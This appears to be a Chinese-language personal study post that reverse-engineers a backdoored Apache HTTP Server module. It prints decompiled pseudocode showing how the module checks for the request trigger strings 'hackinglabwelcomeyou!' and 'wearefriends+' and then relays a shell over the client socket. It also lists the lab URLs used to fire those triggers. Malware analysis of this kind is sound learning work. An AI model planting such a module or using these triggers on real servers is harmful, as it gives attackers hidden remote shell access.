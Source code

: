 # 基础知识

以sub开头加地址的是没有函数表也不是debug的

# 先分析一个简单的
地址：[Apache-HTTP-Server-Module-Backdoor](https://github.com/WangYihang/Apache-HTTP-Server-Module-Backdoor)
```
**注意centos这类系统安装的是httpd-devel，不是apache2-dev，然后记得重启服务**


> 这个是使用了一个popen的函数执行了系统命令，配合源码，感觉比较容易看懂

![title](https://i.loli.net/2019/05/14/5cda26a7ac7a028583.png)


# 再来分析这个

首先，根据上面的思路，发现没有白底加粗的自定义的函数，，，，然后找到一个_init_proc初始化的一个函数,直接F5（目前还就会这一个操做）
```
void (*init_proc())(void)
{
  start();
  sub_1010();
  return sub_2280();
}
```
start()应该就是类似初始化的一些操做。和上一个对比了一下，发现并没有什么异常接下来查看sub_1010代码如下
```
signed __int64 __fastcall sub_2101(__int64 a1)
{
  int v2; // [rsp+14h] [rbp-Ch]
  __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = ap_get_module_config(*(_QWORD *)(*(_QWORD *)(a1 + 8) + 104LL), (__int64)&core_module);
  if ( v3 )
    v2 = *(_DWORD *)(v3 + 8);
  if ( *(_QWORD *)(a1 + 352) && !strcmp(*(const char **)(a1 + 352), "hackinglabwelcomeyou!")
    || *(_QWORD *)(a1 + 384) && !strcmp(*(const char **)(a1 + 384), "hackinglabwelcomeyou!") )
  {
    process_client(256, v2);
  }
  if ( *(_QWORD *)(a1 + 352) && !strcmp(*(const char **)(a1 + 352), "wearefriends+")
    || *(_QWORD *)(a1 + 384) && !strcmp(*(const char **)(a1 + 384), "wearefriends+") )
  {
    process_client(512, v2);
  }
  return 0xFFFFFFFFLL;
}
```
先读取了一个配置文件（后来我查了一下ap_get_module_config，应该是还可以读取url的一些信息），然后根据这个信息得到v2然后做了两个字符串的比较分别执行了process_client(256, v2)和process_client(512, v2)
```
void __fastcall __noreturn process_client(int a1, int a2)
{
  unsigned int v2; // edx
  int v3; // eax
  unsigned int v4; // edx
  ssize_t v5; // rax
  ssize_t v6; // rax
  char s1; // [rsp+10h] [rbp-10A0h]
  fd_set readfds; // [rsp+1010h] [rbp-A0h]
  int buf; // [rsp+1090h] [rbp-20h]
  int v10; // [rsp+1094h] [rbp-1Ch]
  int v11; // [rsp+1098h] [rbp-18h]
  int v12; // [rsp+109Ch] [rbp-14h]

  buf = a1;
  v10 = write(pipe_A[1], &buf, 4uLL);
  if ( v10 != 4 )
    exit(0);
  v10 = read(pipe_B[0], &buf, 4uLL);
  if ( v10 != 4 )
    exit(0);
  if ( buf == 16 )
    exit(0);
  while ( 1 )
  {
    memset(&readfds, 0, sizeof(readfds));
    v11 = 0;
    v12 = (unsigned __int64)&buf;
    v2 = (unsigned int)(pipe_B[2 * buf] >> 31) >> 26;
    readfds.fds_bits[pipe_B[2 * buf] / 64] |= 1LL << (((v2 + pipe_B[2 * buf]) & 0x3F) - v2);
    readfds.fds_bits[a2 / 64] |= 1LL << a2 % 64;
    v3 = a2;
    if ( pipe_B[2 * buf] >= a2 )
      v3 = pipe_B[2 * buf];
    v10 = v3;
    if ( select(v3 + 1, &readfds, 0LL, 0LL, 0LL) < 0 )
      exit(0);
    v4 = (unsigned int)(pipe_B[2 * buf] >> 31) >> 26;
    if ( !((readfds.fds_bits[pipe_B[2 * buf] / 64] >> (((v4 + pipe_B[2 * buf]) & 0x3F) - v4)) & 1) )
      goto LABEL_24;
    v10 = read(pipe_B[2 * buf], &s1, 0x1000uLL);
    if ( v10 > 0 )
    {
      if ( !strncmp(&s1, &s2, 4uLL) )
      {
        shutdown(a2, 2);
        exit(0);
      }
      v5 = send(a2, &s1, v10, 0);
      if ( v5 == v10 )
      {
LABEL_24:
        if ( !((readfds.fds_bits[a2 / 64] >> a2 % 64) & 1) )
          continue;
        v10 = recv(a2, &s1, 0x1000uLL, 0);
        if ( v10 > 0 )
        {
          v6 = write(pipe_A[2LL * buf + 1], &s1, v10);
          if ( v6 == v10 )
            continue;
        }
      }
    }
    shutdown(a2, 2);
    write(pipe_A[1], &buf, 4uLL);
    exit(0);
  }
}
```
> 这个就没有之前那么简单了，好像看一眼源码啊

综合一下上面的分析尝试访问下面两个url
```
view-source:http://192.168.72.137/?wearefriends+
回显rootme-0.3 ready，说明的确是这样用的

http://192.168.72.137/?hackinglabwelcomeyou!
无线连接，感觉有点像反弹shell时候的状态，而且上面的的函数命名为process_client有点可能是弹shell吧，那就是正向连接和反弹shell，正向连接的话防火墙并没有开放其他端口，反弹的话程序中也没有IP字段
```

> 感觉这里就遇到了瓶颈，对这个linux的动态链接库so还是了解的太少了，后来有对照着看了一下mod_version.so也没对比出东西来

放一些前面过程查询到的一些资料连接

apache动态链接库函数的一些说明
- [关于ap_get_module_config的一个问题](https://grokbase.com/t/apache/modules-dev/06amwtemvp/question-about-ap-get-module-config) 就是这个问题让我发现这个有可能是是根据url上提交参数的方式执行的
- [apache动态链接库里面的函数官方说明](https://ci.apache.org/projects/httpd/trunk/doxygen/group__APACHE__CORE__CONFIG.html#gab024c5a586118de1faaf48a7f41de025)

关于动态链接库的一些基础知识
- [解析如何在C语言中调用shell命令的实现方法](https://www.cnblogs.com/sky-heaven/p/4687489.html)讲了三个system()、popen()、vfork(),不知道全不全
- [C/C++ 静态链接库(.a) 与 动态链接库(.so)](http://www.cnblogs.com/52php/p/5681711.html)说了一下动态链接库的基础知识
- [Linux动态链接库.so文件的命名及用途总结](http://blog.sina.com.cn/s/blog_3ee731bc0102xx9n.html),里面提到一个有意思的命令ldd +可执行程序 可以查看这个程序加载了那些动态链接库（要是面试ali的时候知道这个就好了）
- 